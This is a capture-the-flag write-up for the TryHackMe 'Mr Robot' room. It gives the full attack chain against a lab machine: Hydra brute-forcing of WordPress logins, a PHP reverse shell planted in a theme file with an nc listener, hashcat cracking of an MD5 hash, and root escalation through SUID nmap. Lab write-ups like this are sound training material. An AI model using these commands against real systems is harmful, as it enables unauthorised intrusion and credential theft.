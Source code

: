 # Mr Robot CTF THM writup
## 1. Recon:
```
nmap -sV 10.10.8.136
```
initial nmap scan shows that the machine has 2 ports open, http and https <br>
![recon](recon.png)<br>
it is generally a good idea to check out the robots.txt file when inspecting a website <br>
if we go to the robots.txt page of the site, we get the following contents: <br>
![robot](robots.png)<br>
And behold! there are 2 contents in this file, fsocity.dic, and key-1-of-3.txt <br>
if we access the second file, we get our first flag without any problem <br>

The second file (fsocity.dic) seems to be a wordlist that seems to be containing words from the Mr. Robot series. <br>
lets run dirbuster now to fuzz the website. <br>
![login](login.png)<br>
we find that there is a wordpress login portal that can be accessed on the machine. lets go on the site and capture a sample request <br>
![request](request.png)<br>
## 2. Gaining access
we can see that the site gives us an error of Invalid Username. seeing which, the only logical thing to do seems to enumerate users from the wordlist given to us. <br>

```
hydra -p huh -L /tmp/mozilla_kali0/fsocity.dic 10.10.8.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.8.136%2Fwp-admin%2F&testcookie=1:Invalid username."
```
Bingo! we get a hit. <br>
![elliot](Elliot.png)<br>
Now that we have our username, lets try bruteforcing the password using the same wordlist <br>
```
hydra -l Elliot -P /tmp/mozilla_kali0/fsocity.dic 10.10.68.41 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.68.41%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
bruteforcing turns out to be fruitful, we are able to log in using the given found credentials! <br>

Now that we have gained access to the wordpress account, we can upload a reverse shell to the machine. <br>
lets set up the listener using:
```
nc -lvnp <port in webshell>
```
Lets try uploading a reverse shell using the file upload section. <br>
on trying that we find out that php files are not permitted to be uplaoded on the machine. <br>
A workaround for this is to alter pre-existing php files and accessing them. we can go to the appearances tab and edit any of the php files. <br>
we edit the page.php file and replace its contents with the contents of a reverse php shell script <br>
after a little bit of fiddling around, we find that the URL where the php file is stored is: <machine IP>/wp-content/themes/twentyfifteen/ <br>
typing out the URL in the browser spawns a reverse shell in our listener <br>
![shell](shell.png)<br>
## 3. stealing data
now that we have spawned a reverse shell into the machine, we can look around and try to find flags.
```
cd /home/robot
ls
```
we find 2 files in this directory <br>
![key2](key2.png)<br>
we are unable to read the contents of the key text file, however, we are able to read the contents of the md5 file. we can try bruteforcing the md5 hash. I will be using a custom google colab script I have written for fast bruteforcing. It is available in my hacking tools repo on my github. <br>
```
!hashcat -m 0 -a 0 'c3fcd3d76192e4007dfb496cca67e13b' rockyou.txt
```
![hashcat](hashcat.png)<br>
we have the credentials for the user 'robot'. in order to log in as this user, we have to upgrade this simple shell to an interactive shell. to do that, execute:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
now that out interactive shell has been spawned, we can log in as robot using:
```
su robot
```
and then enter the password that was extracted earlier <br>
new we can easily read the contents of the key-2-of-3.txt file to obtain the second flag. <br>
## 3. Escalating privileges
Let us try looking for any binaries that have suid permissions that we can exploit <br>
```
find / -perm +6000 | grep '/bin/'
```
![elev](suid.png)<br>
after some trial and error (searching on GTFObins), we find that the nmap binary can be exploited to elevate privileges. <br>
we run the commands we find on GTFObins:
```
nmap --interactive
!sh
```
we have now gained elevated priveleges and if we run whoami command we will find that we are the root user. <br>

we can now easily move to the root folder and find the third key lying there for us to grab. <br>

with this we clear the room.<br>
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>
